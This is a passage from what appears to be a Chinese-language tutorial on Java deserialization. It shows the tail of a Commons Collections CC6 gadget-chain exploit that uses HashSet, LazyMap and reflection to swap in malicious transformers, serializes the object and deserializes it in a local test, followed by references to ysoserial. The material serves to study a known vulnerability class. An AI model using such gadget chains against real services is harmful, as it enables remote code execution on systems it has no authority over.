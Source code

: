 ```java
        // 返回一个包含hashMap中所有键的Set视图
        HashSet hashSet = new HashSet(hashMap.keySet());

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        // 利用反射技术，传入真正恶意的evilTransformers
        f.set(emptyTransformers, evilTransformers);

        // 移除传入lazyMap中的Key，使LazyMap#get方法中的(map.containsKey(key) == false)判断为true
        lazyMap.remove("k");

        // ----------------本地序列化与反序列化测试----------------
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("CC6WithHashSet.ser"));
        outputStream.writeObject(hashSet);
        outputStream.close();

        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("CC6WithHashSet.ser"));
        inputStream.readObject();
    }
}
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/4ea8c519-24e9-49ad-b6e9-278f0cee4763/2.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T083949Z&X-Amz-Expires=3600&X-Amz-Signature=66496250995291f6823117b0c66ea9ae7a3c6b488b7ffb5ac572ea543eca7dc7&X-Amz-SignedHeaders=host&x-id=GetObject)

## 参考

- [https://0xf4n9x.github.io/java-deserialization-vulnerability-principle](https://0xf4n9x.github.io/java-deserialization-vulnerability-principle)
- [https://0xf4n9x.github.io/java-deserialization-cc1-transformedmap](https://0xf4n9x.github.io/java-deserialization-cc1-transformedmap)
- [https://0xf4n9x.github.io/java-deserialization-cc1-lazymap](https://0xf4n9x.github.io/java-deserialization-cc1-lazymap)
- [https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java)

